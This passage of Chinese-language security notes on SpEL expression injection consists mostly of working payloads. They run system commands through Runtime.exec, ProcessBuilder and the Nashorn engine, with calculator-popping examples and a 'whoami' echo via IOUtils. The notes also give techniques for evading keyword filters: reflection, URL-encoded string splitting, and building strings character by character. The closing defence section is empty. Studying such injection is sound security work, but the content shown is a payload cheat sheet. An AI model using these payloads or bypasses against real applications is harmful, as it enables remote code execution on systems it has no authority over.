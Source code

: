 ```java
${12*12}
T(java.lang.Runtime).getRuntime().exec("open -na Calculator")
T(Thread).sleep(10000)
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('open -na Calculator')
new java.lang.ProcessBuilder('open -na Calculator').start()
```

回显

引入了`org.apache.commons.io`这个包的话，可以输出回显

```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream())
```

![image-20211015101025581](08.SpEL表达式.assets/image-20211015101025581.png)

## 绕过方式

如果采用关键词过滤，可以采用反射的方式来绕过

```java
T(String).class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("open%20-na%20Calculator")
    
// + 一定要用url编码，不然浏览器解析会有问题
T(String).class.forName("java.lang.Ru"%2b"ntime").getMethod("getRu"%2b"ntime").invoke(null).exec("open%20-na%20Calculator")
    
T(String).getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).getClass().getMethod("exec",T(String)).invoke(T(java.lang.Runtime).getRuntime(),"open%20-na%20Calculator")
```

使用`ScriptEngineManager`构造

```java
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("java.lang.Runtime.getRuntime().exec('open -na Calculator')")

T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("java.lang.Runt"%2b"ime.getRu"%2b"ntime().e"%2b"xec('open -na Calculator')")
```

如果不能使用双引号，那么可以采用生成任意字符+`concat`函数的形式进行绕过

```
T(java.lang.Character).toString(97).concat(T(java.lang.Character).toString(98))
```


## 防御
